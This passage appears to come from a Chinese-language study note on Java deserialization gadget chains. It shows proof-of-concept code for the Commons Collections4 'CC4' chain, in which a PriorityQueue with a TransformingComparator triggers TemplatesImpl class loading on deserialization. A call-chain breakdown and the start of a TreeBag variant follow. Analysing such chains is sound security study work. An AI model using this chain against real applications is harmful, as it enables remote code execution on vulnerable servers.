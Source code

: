 ```java
        Field name = TemplatesImpl.class.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(tmpl, "name");

        // 结合 ChainedTransformer
        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{tmpl})
        });

        TransformingComparator comparator = new TransformingComparator(chain);

        // 在初始化时不带入 comparator
        PriorityQueue<String> queue = new PriorityQueue<>(2);
        queue.add("1");
        queue.add("2");

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue, comparator);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc4"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc4"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }

}
```
调用链：
```
PriorityQueue.readObject()
  PriorityQueue.heapify()
  PriorityQueue.siftDown()
  PriorityQueue.siftDownUsingComparator()
  comparator.compare() === TransformingComparator.compare()
    ChainedTransformer.transform()
      ConstantTransformer.transform()
      InstantiateTransformer.transform()
      newInstance()
        TrAXFilter#TrAXFilter()
          TemplatesImpl.newTransformer()
            TemplatesImpl.getTransletInstance() 
              TemplatesImpl.defineTransletClasses()  // 定义类
            ...  // 创建类实例，触发static代码块
```
#### TreeBag
用 TreeBag 代替 PriorityQueue 触发 TransformingComparator，后续依旧使用 Transformer 的调用链
POC：
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.bag.TreeBag;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;
```